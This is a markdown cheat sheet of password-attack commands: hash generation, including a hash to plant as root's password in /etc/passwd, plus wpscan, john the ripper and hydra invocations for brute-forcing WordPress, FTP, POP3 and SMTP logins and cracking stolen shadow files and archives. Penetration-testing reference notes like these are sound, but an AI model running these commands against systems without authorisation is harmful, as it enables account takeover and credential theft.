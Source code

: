 * Hash generation
``` sh
# hash accepted in /etc/shadow
perl -e 'print crypt("YourPasswd", "salt"),"\n"'

# generate hash to put as root's password in /etc/passwd
openssl passwd <password>

# md5 hash from string
echo -n "mystring" | md5sum

# generating a PHP password hash
$ php -a
php > echo password_hash('<password>', PASSWORD_DEFAULT);
```

* `wpscan` WordPress cracking
``` sh
# wordlist using 50 threads
wpscan --url www.example.com --wordlist /usr/share/wordlists/fasttrack.txt --threads 50

# accept wordlist from stdin
crunch 5 13 -f charset.lst mixalpha | wpscan --url www.example.com --wordlist -

# brute force a specific user; in this case `admin`
wpscan --url www.example.com --wordlist darkc0de.lst --username admin
```

* `john` cracking
``` sh
# wordlist mode
john --wordlist=password.lst hash.lst

# incremental brute force
john --incremental hash.lst

# cracking a ZIP archive
zip2john <zipfile> > hash.lst && john --format=zip hash.lst

# cracking a RAR archive
rar2john <zipfile> > hash.lst && john --format=rar hash.lst

# cracking compromised `/etc/passwd` and `/etc/shadow`
unshadow stolen-passwd.txt stolen-shadow.txt > <fout>
john <fout>
```

* `hydra` brute forcing
``` sh
# ftp
hydra -l <username> -P /usr/share/wordlistsnmap.lst -f <ip> ftp -V

# pop3
hydra -l <username> -P /usr/share/wordlistsnmap.lst -f <ip> pop3 -V

# smtp
hydra -l <username> -P /usr/share/wordlistsnmap.lst -f <ip> smtp -V
```
